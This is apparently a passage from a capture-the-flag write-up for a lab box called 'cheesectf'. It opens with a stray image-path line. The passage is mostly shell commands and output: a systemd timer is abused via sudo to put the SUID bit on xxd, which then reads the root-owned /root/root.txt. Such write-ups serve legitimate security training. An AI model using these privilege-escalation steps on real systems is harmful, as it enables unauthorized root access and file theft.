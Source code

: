 ```bash
LFILE=file_to_read
./xxd "$LFILE" | xxd -r
```

### Exploiting Systemd for Privilege Escalation

1. Fix `exploit.timer` by adding missing fields:

```bash
[Unit]
Description=Exploit Timer

[Timer]
OnUnitActiveSec=0
OnBootSec=0

[Install]
WantedBy=timers.target
```

2. Start the timer:

```bash
sudo /bin/systemctl start exploit.timer
```

3. Verify that `/opt/xxd` has SUID bit:

```bash
comte@cheesectf:~$ ls -al /opt
total 28
drwxr-xr-x  2 root root  4096 Feb 25 18:35 .
drwxr-xr-x 19 root root  4096 Sep 27  2023 ..
-rwsr-sr-x  1 root root 18712 Feb 25 18:42 xxd
```

### Reading the Root Flag

Using `xxd`, we read `/root/root.txt`:

```bash
LFILE=/root/root.txt
./xxd "$LFILE" | xxd -r
```

Root flag:

```bash
THM{root_flag}
```